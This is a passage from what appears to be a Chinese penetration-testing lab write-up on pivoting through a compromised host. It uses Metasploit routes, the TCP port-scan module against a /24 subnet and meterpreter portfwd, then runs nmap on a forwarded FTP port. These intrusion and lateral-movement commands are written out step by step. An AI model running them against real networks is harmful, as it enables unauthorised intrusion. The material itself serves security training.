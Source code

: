 ![在这里插入图片描述](https://img-blog.csdnimg.cn/dd5d0f8203164a73a20ebd456905f428.png)


返回到msf，检查是否添加成功

```
route print
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/f19f72fcaaaa4d8da45e054d92294c43.png)


路由添加成功。然后我们可以使用“route”命令将路由表添加到 metasploit 框架

```
route add 192.241.145.0  255.255.255.0 1
```

使用msf的tcp扫描模块
```
auxiliary/scanner/portscan/tcp
```
设置参数，然后执行扫描
```
use auxiliary/scanner/portscan/tcp
set PORTS 80, 8080, 445, 21, 22
set RHOSTS 192.241.145.0/24
exploit
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/2b1c33ae501642ab88e1921d04bf928e.png)

然后我们发现了三台存活的主机

![在这里插入图片描述](https://img-blog.csdnimg.cn/f6f374cbe5204351921b5c1cd6e94160.png)

192.241.145.1只开放了22端口，猜测可能是网关，192.241.145.2这个机子开发了80端口，是刚刚我们用vcms渗透的机子，未知的只有192.241.145.3这台机子，开发了21端口

在meterpreter 会话中有一个实用程序“portfwd”，它可以将远程机器端口转发到本地机器端口

回到刚刚拿下权限的那台机子

```
session -i 1
```

将远程端口转发到本地端口

```
portfwd add -l 1234 -p 21 -r 192.241.145.3
portfwd list
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/332920dd72394186bfb6a5678d121541.png)
我们已经成功转发了端口。现在，使用 Nmap 扫描本地1234端口

```
nmap -sS -sV -p 1234 localhost
```
